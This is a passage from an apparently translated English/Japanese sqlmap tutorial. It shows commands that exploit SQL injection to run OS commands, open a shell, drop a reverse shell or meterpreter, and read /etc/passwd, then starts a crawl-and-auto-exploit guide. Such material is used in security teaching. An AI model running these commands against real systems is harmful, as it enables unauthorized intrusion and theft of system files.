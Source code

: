 ```bash
sqlmap> shell
```

Once you have access to the shell, you can perform various actions such as uploading and downloading files, executing system commands, and even pivoting to other systems on the network.

It is important to note that using the `shell` command can be risky, as it can potentially expose your identity and activities. Therefore, it is recommended to use it cautiously and only in controlled environments.
```bash
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn
```
### ファイルの読み取り

このオプションを使用すると、SQLインジェクションの脆弱性を利用してデータベースからファイルを読み取ることができます。`--file-read`オプションを使用して、読み取りたいファイルのパスを指定します。

```bash
sqlmap -u "http://example.com/vuln.php?id=1" --file-read="/etc/passwd"
```

このコマンドは、指定したURLの`id`パラメータにSQLインジェクションの脆弱性があるかどうかを検査し、脆弱性がある場合には`/etc/passwd`ファイルを読み取ります。

ファイルの読み取りは、データベースのバックエンドシステムにアクセスするための情報を取得するために使用されることがあります。この情報を利用すると、攻撃者はシステムに対する特権を取得したり、他の攻撃を実行したりすることができます。

ファイルの読み取りは、慎重に行う必要があります。適切な権限を持たないファイルにアクセスしようとすると、エラーが発生する可能性があります。また、不正な目的で使用することは違法ですので、法律に違反しないように注意してください。
```bash
--file-read=/etc/passwd
```
### SQLmapを使用してウェブサイトをクロールし、自動的にエクスプロイトする

SQLmap is a powerful tool for automating the process of detecting and exploiting SQL injection vulnerabilities in web applications. In this guide, we will learn how to use SQLmap to crawl a website and automatically exploit any SQL injection vulnerabilities that are found.

SQLmapは、ウェブアプリケーションのSQLインジェクション脆弱性を検出し、エクスプロイトするプロセスを自動化する強力なツールです。このガイドでは、SQLmapを使用してウェブサイトをクロールし、見つかったSQLインジェクション脆弱性を自動的にエクスプロイトする方法を学びます。

#### Step 1: Crawl the website

#### ステップ1：ウェブサイトをクロールする

The first step is to crawl the website using SQLmap. This will allow SQLmap to discover all the available pages and parameters that can be tested for SQL injection vulnerabilities.

最初のステップは、SQLmapを使用してウェブサイトをクロールすることです。これにより、SQLmapはSQLインジェクションの脆弱性をテストすることができるすべての利用可能なページとパラメータを発見することができます。
